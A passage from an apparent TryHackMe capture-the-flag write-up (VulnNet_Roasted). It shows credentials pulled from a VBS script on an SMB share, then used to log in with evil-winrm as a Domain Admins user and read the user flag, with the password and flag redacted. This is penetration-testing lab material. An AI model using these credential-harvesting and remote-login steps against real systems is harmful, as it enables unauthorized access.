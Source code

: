 `ResetPassword.vbs` looks interesting:

```
smb: \> get ResetPassword.vbs 
[...]
smb: \> quit
                                                                                                                               
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet_Roasted]
└─# cat ResetPassword.vbs 
[...]
strUserNTName = "a-whitehat"
strPassword = "[Redacted]"
[...]
```

Another credential!

`a-whitehat:[Redacted]`

# Initial Access:

Since now we have a set of credential for user a-whitehat, we may try to login to `RDC` with `evil-winrm`:

```
┌──(root💀nam)-[~/ctf/thm/ctf/VulnNet_Roasted]
└─# evil-winrm -i $IP -u "a-whitehat" -p <Redacted_Password>
[...]
*Evil-WinRM* PS C:\Users\a-whitehat\Documents> whoami; hostname; ipconfig /all
vulnnet-rst\a-whitehat
WIN-2BO8M1OE1M1

Windows IP Configuration
[...]
Ethernet adapter Ethernet 2:
[...]
   IPv4 Address. . . . . . . . . . . : 10.10.24.127(Preferred)
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
[...]
```

```
*Evil-WinRM* PS C:\Users\a-whitehat\Documents> net user "a-whitehat"
User name                    a-whitehat
Full Name                    Alexa Whitehat
[...]
Global Group memberships     *Domain Admins        *Domain Users
[...]
```

**user.txt**

```
*Evil-WinRM* PS C:\Users\a-whitehat\Documents> type C:\Users\enterprise-core-vn\Desktop\user.txt
THM{Redacted}
```
